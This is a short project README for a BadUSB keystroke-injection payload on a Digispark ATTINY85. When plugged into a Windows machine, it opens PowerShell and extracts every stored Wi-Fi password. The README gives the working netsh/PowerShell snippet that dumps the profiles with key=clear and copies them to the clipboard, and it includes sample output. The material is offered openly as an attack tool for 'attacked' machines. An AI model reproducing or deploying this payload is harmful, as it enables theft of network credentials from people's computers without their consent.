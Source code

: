 # Wifi Profile Grabber
## Description
This is a simple *keystroke injection* script designed for grabbing user's wifi credentials. 
## Specifications
* **Hardware** = Digispark ATTINY85
* **Platform** = Windows (PowerShell)
* **Implementation** = Arduino script
## Implementation
Script uses standard delay and keystoke commands. Inserting the bad usb will open PowerShell window. Credentials are obtained using the following simplified script:
```
$a = (netsh wlan show profiles) | Select-String ' :(.*)' // store found devices
$count = 1
$out = while($a.matches.groups[$count].value) { netsh wlan show profiles $a.matches.groups[$count].value.Trim() key=clear; $count+=2}
write-output $out | clip // copy to clipboard
```
Can be replaced with [Hak5's one-liner](https://shop.hak5.org/blogs/payloads).
## Output
Script will grab data of all stored wifi credentials from attacked machine. The following example showcases one profile:
```
Profile K. on interface Wi-Fi: 
======================================================================= 

Applied: All User Profile    

Profile information 
------------------- 
    Version                : 1
    Type                   : Wireless LAN
    Name                   : K.
    Control options        : 
        Connection mode    : Connect automatically
        Network broadcast  : Connect only if this network is broadcasting
        AutoSwitch         : Do not switch to other networks
        MAC Randomization  : Disabled

Connectivity settings 
--------------------- 
    Number of SSIDs        : 1
    SSID name              : "K."
    Network type           : Infrastructure
    Radio type             : [ Any Radio Type ]
    Vendor extension          : Not present

Security settings 
----------------- 
    Authentication         : WPA2-Personal
    Cipher                 : CCMP
    Authentication         : WPA2-Personal
    Cipher                 : GCMP
    Security key           : Present
    Key Content            : <PASSWORD>

Cost settings 
------------- 
    Cost                   : Fixed
    Congested              : No
    Approaching Data Limit : No
    Over Data Limit        : No
    Roaming                : No
    Cost Source            : Operator

```
